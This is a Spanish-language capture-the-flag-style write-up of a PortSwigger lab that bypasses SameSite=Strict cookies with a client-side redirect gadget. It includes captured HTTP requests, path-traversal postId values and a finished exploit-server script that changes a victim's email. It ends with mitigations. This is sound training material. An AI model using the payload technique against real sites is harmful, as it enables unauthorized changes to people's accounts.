



# PortSwigger Web Security Academy — CSRF Lab 8

## Laboratorio: Bypass de `SameSite=Strict` mediante redirección del lado cliente

**URL del laboratorio:**  
<https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect>

**Credenciales proporcionadas:**

```text
wiener:peter
```

**Objetivo del laboratorio:** realizar un ataque CSRF que cambie la dirección de email de la víctima usando el exploit server proporcionado por PortSwigger.



---

## 1. Idea principal del laboratorio

Este laboratorio enseña un bypass avanzado de `SameSite=Strict` usando un **client-side redirect gadget**.

La idea clave es esta:

> `SameSite=Strict` bloquea cookies en peticiones iniciadas desde otro sitio, pero no puede protegerte si una página pública del propio sitio ejecuta JavaScript y genera después una navegación interna autenticada.

Es decir, el atacante no envía directamente a la víctima contra el endpoint sensible. En vez de eso, fuerza primero a la víctima a visitar una página pública del sitio vulnerable. Esa página pública ejecuta JavaScript legítimo del propio sitio, y ese JavaScript redirige internamente hacia el endpoint sensible.

La diferencia parece sutil, pero es la base de todo el laboratorio.

---

## 2. Qué significa `SameSite=Strict`

Cuando una cookie tiene esta forma:

```http
Set-Cookie: session=ABC; Secure; HttpOnly; SameSite=Strict
```

el navegador aplica una regla muy restrictiva:

> La cookie solo se enviará en peticiones same-site.

Esto significa que si el usuario está en un dominio externo, por ejemplo:

```text
https://exploit-server.net
```

y desde ahí se fuerza una navegación a:

```text
https://victima.web-security-academy.net/my-account/change-email
```

esa navegación inicial es **cross-site**. Como la cookie es `SameSite=Strict`, el navegador no enviará la cookie de sesión.

Por tanto, un CSRF clásico como este no funcionaría:

```html
<script>
    document.location = "https://victima.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&submit=1";
</script>
```

El navegador haría la petición, sí, pero sin la cookie de sesión. Sin cookie no hay sesión autenticada. Sin sesión autenticada no hay cambio de email.

---

## 3. Entonces, ¿dónde está la vulnerabilidad?

La vulnerabilidad real no está en que `SameSite=Strict` falle directamente. `SameSite=Strict` está haciendo su trabajo.

La vulnerabilidad está en la combinación de varios errores:

1. Existe una página pública accesible sin autenticación: `/post/comment/confirmation?postId=...`.
2. Esa página ejecuta JavaScript del lado cliente.
3. El JavaScript usa el parámetro `postId` para construir una URL.
4. El parámetro `postId` es controlable por el atacante.
5. El navegador normaliza rutas con secuencias como `../`.
6. El endpoint sensible `/my-account/change-email` acepta peticiones GET.
7. No existe un token CSRF robusto que impida la acción.

El bypass nace de encadenar todos esos comportamientos.

---

## 4. Descubrimiento inicial: publicar un comentario

Empezamos el laboratorio y vemos un blog con varios posts.


Al dejar un comentario en un post, Burp Suite muestra esta petición:

```http
POST /post/comment HTTP/1.1
Host: 0a68003603bbae808093d11200b500f6.web-security-academy.net
Cookie: session=YxdhSh7yRcv6ODvZUocJryZOZg5dTyTB
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a68003603bbae808093d11200b500f6.web-security-academy.net/post/5
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: https://0a68003603bbae808093d11200b500f6.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

postId=5&comment=hola&name=payload&email=payload%40gmail.com&website=http%3A%2F%2Fpayload.com
```

La respuesta del servidor es una redirección HTTP normal:

```http
HTTP/2 302 Found
Location: /post/comment/confirmation?postId=5
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Hasta aquí no hay nada raro. El servidor recibe el comentario y redirige a una página de confirmación.

---

## 5. La página de confirmación

Después de publicar el comentario, el navegador llega a:

```http
GET /post/comment/confirmation?postId=5 HTTP/2
Host: 0a68003603bbae808093d11200b500f6.web-security-academy.net
Cookie: session=YxdhSh7yRcv6ODvZUocJryZOZg5dTyTB
Referer: https://0a68003603bbae808093d11200b500f6.web-security-academy.net/post/5
Sec-Fetch-Site: same-origin
```

La página muestra el mensaje de confirmación:



La respuesta HTML contiene estas líneas importantes:

```html
<script src='/resources/js/commentConfirmationRedirect.js'></script>
<script>redirectOnConfirmation('/post');</script>
<h1>Thank you for your comment!</h1>
<p>Your comment has been submitted. You will be redirected momentarily.</p>
<div class="is-linkback">
    <a href="/post/5">Back to blog</a>
</div>
```

Estas líneas son la pista principal del laboratorio.

Hay un archivo JavaScript externo:

```html
<script src='/resources/js/commentConfirmationRedirect.js'></script>
```

y después se ejecuta esta función:

```html
<script>redirectOnConfirmation('/post');</script>
```

Esto significa que la redirección posterior no la está haciendo el servidor con un `302`. La está haciendo el navegador ejecutando JavaScript.

Eso es un **client-side redirect**.

---

## 6. Diferencia entre redirect de servidor y redirect de cliente

Un redirect de servidor se ve así:

```http
HTTP/1.1 302 Found
Location: /home
```

El servidor le dice al navegador: “vete a `/home`”.

Un redirect de cliente se ve así:

```javascript
document.location = "/home";
```

O algo equivalente dentro de una función JavaScript.

La diferencia práctica es muy importante:

- Burp Repeater sí ve respuestas HTTP.
- Burp Repeater no ejecuta JavaScript.
- El navegador real sí ejecuta JavaScript.

Por eso, para probar este laboratorio correctamente, no basta con mirar la respuesta en Repeater. Hay que probar ciertos payloads en el navegador.

---

## 7. Confirmación del gadget: cambiar `postId` por `foo`

Para confirmar que `postId` controla la ruta final del redirect, se prueba esta URL:

```text
https://0a7500fd0405e1d2812a709200c10061.web-security-academy.net/post/comment/confirmation?postId=foo
```

La respuesta incluye:

```html
<script src='/resources/js/commentConfirmationRedirect.js'></script>
<script>redirectOnConfirmation('/post');</script>
...
<a href="/post/foo">Back to blog</a>
```

Esto demuestra que el valor `foo` se está usando para construir una ruta bajo `/post/`.

El JavaScript vulnerable probablemente hace algo conceptualmente parecido a esto:

```javascript
function redirectOnConfirmation(basePath) {
    const postId = new URLSearchParams(window.location.search).get('postId');
    setTimeout(() => {
        window.location = basePath + '/' + postId;
    }, 3000);
}
```

No necesitamos conocer exactamente el código interno para explotarlo. Basta con demostrar el comportamiento:

```text
postId=5   -> redirect a /post/5
postId=foo -> redirect a /post/foo
```

El parámetro `postId` controla parcialmente la URL final.

Eso convierte esta funcionalidad en un **gadget**.

---

## 8. Qué es un gadget en este contexto

Un gadget es una funcionalidad legítima que un atacante reutiliza para conseguir un efecto malicioso.

Aquí el desarrollador quería algo normal:

> Después de comentar, mandar al usuario de vuelta al post correspondiente.

Pero el atacante reutiliza esa lógica para otra cosa:

> Hacer que el propio sitio genere una navegación interna hacia un endpoint sensible.

El gadget concreto es:

```text
/resources/js/commentConfirmationRedirect.js
```

Y es útil para el atacante porque:

- acepta input controlado mediante `postId`,
- construye una ruta con ese input,
- fuerza una navegación del navegador,
- y esa navegación ocurre desde una página que ya pertenece al sitio víctima.

---

## 9. Escapar de `/post/` usando path traversal

Si el JavaScript construye esto:

```text
/post/ + postId
```

entonces con:

```text
postId=1/../../my-account
```

el navegador intentará navegar a:

```text
/post/1/../../my-account
```

Pero los navegadores normalizan rutas. La secuencia `../` significa “subir un directorio”. Por eso:

```text
/post/1/../../my-account
```

se normaliza a:

```text
/my-account
```

La prueba práctica en el navegador es:

```text
https://0a7500fd0405e1d2812a709200c10061.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account
```

Primero aparece la página de “Thank you for your comment”. Unos segundos después, el navegador redirige automáticamente a:

```text
/my-account
```

Esto confirma que el gadget permite salir de `/post/` y alcanzar rutas internas arbitrarias.

---

## 10. Por qué esto bypassa `SameSite=Strict`

El flujo importante es este:

```text
1. La víctima visita el exploit server.

   exploit-server.net

2. El exploit fuerza una navegación a la página pública de confirmación.

   exploit-server.net
      -> victima.web-security-academy.net/post/comment/confirmation?postId=...

   Esta primera navegación es cross-site.
   Con SameSite=Strict, la cookie de sesión no se envía.

3. No importa que no haya cookie, porque la página de confirmación es pública.

4. La página pública carga JavaScript del propio sitio víctima.

5. Ese JavaScript ejecuta una redirección interna.

   victima.web-security-academy.net
      -> victima.web-security-academy.net/my-account/change-email?...

6. Esta segunda navegación ya es same-site.

7. En esta segunda petición, el navegador sí envía la cookie SameSite=Strict.

8. La petición llega autenticada al endpoint sensible.
```

La clave absoluta es que el atacante no consigue que la primera petición cross-site lleve cookies. No las lleva. Pero no las necesita.

El atacante solo necesita que la primera página cargue y ejecute el JavaScript. Después, el propio sitio víctima genera la navegación sensible.

---

## 11. Comprobación de la cookie `SameSite=Strict`

Al iniciar sesión con:

```text
wiener:peter
```

la petición de login es:

```http
POST /login HTTP/1.1
Host: 0a3a00f10473233b804003ce00ee00fe.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Origin: https://0a3a00f10473233b804003ce00ee00fe.web-security-academy.net

username=wiener&password=peter
```

La respuesta confirma la configuración de la cookie:

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=UAbkcaquwQu0YZaOeiQsWQvTDnSVPiUI; Secure; HttpOnly; SameSite=Strict
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

La parte importante es:

```http
SameSite=Strict
```

Esto confirma que no estamos ante un CSRF básico. La protección existe, pero se va a rodear usando una navegación interna generada por JavaScript.

---

## 12. Probar el bypass desde el exploit server

En el exploit server se puede guardar este HTML:

```html
<script>
    document.location = "https://0a7b00f503e2f9408071036e008b0036.web-security-academy.net/post/comment/confirmation?postId=../my-account";
</script>
```

Al abrirlo uno mismo, el flujo es:

```text
exploit server
   -> /post/comment/confirmation?postId=../my-account
   -> JavaScript interno
   -> /my-account
```

Si terminas en tu página de cuenta estando autenticado, ya está demostrado el bypass.

Importante: la primera petición viene desde el exploit server y por tanto es cross-site. Pero la página de confirmación es pública, así que carga igualmente. La segunda navegación la inicia el JavaScript del propio dominio víctima, y por eso ya se trata como same-site.

---

## 13. Analizar el cambio de email

Ahora se captura la petición normal de cambio de email:

```http
POST /my-account/change-email HTTP/1.1
Host: 0a7b00f503e2f9408071036e008b0036.web-security-academy.net
Cookie: session=Or5Auq36zHl9oSiKdpE70w00pY0lSLgw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: https://0a7b00f503e2f9408071036e008b0036.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: https://0a7b00f503e2f9408071036e008b0036.web-security-academy.net
Sec-Fetch-Site: same-origin

email=mamon%40gmail.com&submit=1
```

El formulario usa POST, pero eso no significa que el servidor solo acepte POST. Para comprobarlo, se envía la petición a Repeater y se usa:

```text
Right click -> Change request method
```

Burp genera una versión GET equivalente:

```http
GET /my-account/change-email?email=mamon%40gmail.com&submit=1 HTTP/1.1
Host: 0a7b00f503e2f9408071036e008b0036.web-security-academy.net
Cookie: session=Or5Auq36zHl9oSiKdpE70w00pY0lSLgw
Referer: https://0a7b00f503e2f9408071036e008b0036.web-security-academy.net/my-account?id=wiener
Origin: https://0a7b00f503e2f9408071036e008b0036.web-security-academy.net
Sec-Fetch-Site: same-origin
```

La respuesta es:

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Esto demuestra que el endpoint también acepta GET para cambiar el email.

Eso es muy importante porque el gadget que tenemos genera una navegación. Una navegación normal del navegador es fácil de convertir en GET. Si el cambio de email exigiera estrictamente POST con token CSRF, el ataque sería mucho más difícil o directamente no funcionaría con este gadget.

---

## 14. Construcción del payload final

Queremos que el JavaScript vulnerable genere esta URL final autenticada:

```text
/my-account/change-email?email=pwned@web-security-academy.net&submit=1
```

Pero no controlamos directamente la URL final. Controlamos el valor de `postId` en esta URL inicial:

```text
/post/comment/confirmation?postId=...
```

El JavaScript hace algo similar a:

```javascript
location = "/post/" + postId;
```

Así que necesitamos meter dentro de `postId` una ruta que, al combinarse con `/post/`, termine normalizándose al endpoint de cambio de email.

El valor elegido es:

```text
1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1
```

La URL completa del exploit queda así:

```html
<script>
    document.location = "https://0a7b00f503e2f9408071036e008b0036.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

---

## 15. Por qué se usa `%26` en vez de `&`

Esta parte es crítica.

Queremos que la URL final sea:

```text
/my-account/change-email?email=pwned@web-security-academy.net&submit=1
```

Pero primero todo eso tiene que viajar dentro del parámetro `postId`.

Si escribimos esto:

```text
/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned@web-security-academy.net&submit=1
```

el navegador interpreta la query string así:

```text
postId = 1/../../my-account/change-email?email=pwned@web-security-academy.net
submit = 1
```

El problema es que el gadget solo usa `postId`. El parámetro `submit=1` quedaría fuera del valor usado por el JavaScript.

Por eso codificamos el carácter `&` como `%26`:

```text
postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1
```

Ahora el navegador entiende que todo sigue dentro de `postId`.

Después, cuando el navegador navega a la URL construida por el JavaScript, el `%26` se decodifica y vuelve a ser `&` en el momento útil.

Resumen:

```text
Antes del gadget:
%26 evita que submit=1 se separe demasiado pronto.

Después del gadget:
%26 se convierte en &, y el endpoint final recibe email=...&submit=1.
```

Dicho de forma directa:

> Primero queremos que todo sea un solo parámetro para sobrevivir dentro de `postId`. Después queremos que vuelva a separarse para que el endpoint final reciba sus parámetros correctamente.

---

## 16. Qué hace `submit=1`

`submit=1` no es magia. Normalmente representa que el formulario ha sido enviado.

Muchos backends distinguen entre:

```text
Visitar la página del formulario:
/my-account/change-email
```

y:

```text
Enviar el formulario:
/my-account/change-email?email=test@example.com&submit=1
```

Un backend vulnerable podría tener una lógica parecida a esta:

```python
@app.route('/my-account/change-email')
def change_email():
    if request.args.get('submit'):
        db.change_email(current_user, request.args['email'])
        return redirect('/my-account?id=' + current_user.username)

    return render_template('change-email.html')
```

Con esa lógica:

```text
/my-account/change-email?email=test@example.com
```

podría simplemente mostrar la página o no ejecutar la acción.

Pero:

```text
/my-account/change-email?email=test@example.com&submit=1
```

activa la rama que procesa el cambio.

En este laboratorio, `submit=1` sirve para que el backend trate la petición como un envío real del formulario.

---

## 17. Flujo exacto del exploit final

Payload servido desde el exploit server:

```html
<script>
    document.location = "https://0a7b00f503e2f9408071036e008b0036.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

Flujo completo:

```text
1. La víctima visita el exploit server.

2. El script del exploit server ejecuta:

   document.location = "https://victima/post/comment/confirmation?postId=..."

3. El navegador hace una navegación cross-site hacia la página de confirmación.

   exploit-server.net -> victima.web-security-academy.net

4. Como la cookie es SameSite=Strict, la cookie de sesión no se envía en esta primera petición.

5. La página de confirmación carga porque es pública.

6. La página ejecuta:

   redirectOnConfirmation('/post')

7. El JavaScript construye:

   /post/1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1

8. El navegador normaliza la ruta:

   /my-account/change-email?email=pwned%40web-security-academy.net%26submit=1

9. En la navegación final, `%26` se interpreta como `&`.

10. El endpoint recibe:

   email=pwned@web-security-academy.net
   submit=1

11. Esta segunda navegación es same-site.

12. El navegador sí envía la cookie `SameSite=Strict`.

13. La petición llega autenticada.

14. El email de la víctima cambia.

15. El laboratorio queda resuelto.
```



---

## 18. Por qué Repeater no basta en esta parte

Una confusión común en este laboratorio es intentar probarlo todo desde Burp Repeater.

Repeater sirve para:

- editar peticiones,
- observar respuestas,
- comprobar si un endpoint acepta GET,
- ver cabeceras,
- estudiar cookies,
- confirmar redirecciones HTTP del servidor.

Pero Repeater no sirve para comprobar directamente un redirect hecho por JavaScript, porque no ejecuta JavaScript.

Si la respuesta contiene:

```html
<script src='/resources/js/commentConfirmationRedirect.js'></script>
<script>redirectOnConfirmation('/post');</script>
```

Repeater solo te enseña ese HTML. No ejecuta la función. El navegador sí.

Por eso las pruebas del gadget deben hacerse en el navegador real.

---

## 19. Qué errores de seguridad hay en la aplicación

Este laboratorio no depende de un único fallo. Es una cadena.

### Error 1: confiar demasiado en `SameSite=Strict`

`SameSite=Strict` ayuda, pero no sustituye a un token CSRF.

### Error 2: endpoint sensible accesible por GET

Cambiar un email modifica estado. Las acciones que modifican estado no deberían depender de GET.

GET debería ser seguro e idempotente. En la práctica, una petición GET no debería cambiar datos sensibles.

### Error 3: ausencia de token CSRF

El cambio de email debería exigir un token impredecible asociado a la sesión del usuario.

### Error 4: JavaScript que construye URLs con input controlado

El parámetro `postId` se usa para construir rutas sin validación suficiente.

### Error 5: no restringir el formato de `postId`

Un identificador de post debería validarse como número o como identificador esperado. No debería aceptar valores como:

```text
foo
../my-account
1/../../my-account/change-email?email=...
```

### Error 6: gadget de navegación interna reutilizable

La aplicación proporciona una funcionalidad que permite al atacante hacer que el propio sitio genere navegaciones internas.

---

## 20. Cómo se debería mitigar

Las defensas correctas serían:

1. Usar tokens CSRF robustos en acciones sensibles.
2. No permitir cambios de estado mediante GET.
3. Validar `postId` estrictamente.
4. No construir URLs de redirección con input no confiable.
5. Normalizar y validar rutas antes de redirigir.
6. Evitar redirects controlables desde parámetros del usuario.
7. Considerar `SameSite` como defensa en profundidad, no como defensa principal.

Una validación razonable para `postId` sería algo como:

```javascript
if (!/^\d+$/.test(postId)) {
    throw new Error('Invalid postId');
}
```

O, mejor todavía, que el servidor genere una URL de retorno segura en vez de dejar que el cliente la construya con un parámetro manipulable.

---

## 21. Resumen mental del laboratorio

La explicación corta sería:

```text
SameSite=Strict bloquea el CSRF directo.

Pero existe una página pública del sitio víctima que ejecuta JavaScript.

Ese JavaScript usa postId para construir una ruta:
/post/ + postId

Con path traversal, el atacante convierte esa ruta en:
/my-account/change-email?email=...&submit=1

La primera navegación es cross-site y no lleva cookies.
No importa, porque la página es pública.

La segunda navegación la inicia el propio sitio víctima.
Esa sí es same-site.

En esa segunda navegación el navegador envía la cookie Strict.

Resultado: CSRF exitoso.
```

---

## 22. Payload final limpio

Sustituyendo el dominio por el dominio activo de tu instancia del laboratorio:

```html
<script>
    document.location = "https://TU-LAB.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```

Notas importantes:

- Cambia `TU-LAB.web-security-academy.net` por el host real de tu laboratorio.
- Usa `%40` para codificar `@` en el email.
- Usa `%26` para codificar `&` y mantener `submit=1` dentro de `postId` hasta el momento adecuado.
- Prueba primero el exploit contra tu propia sesión.
- Después cambia el email para que no coincida con el tuyo y entrega el exploit a la víctima.

---

## 23. Frase clave para recordar

> `SameSite=Strict` bloquea peticiones cross-site directas, pero no impide que una página pública del propio sitio ejecute JavaScript y genere después una navegación same-site autenticada.

Esa es la lección real del laboratorio.

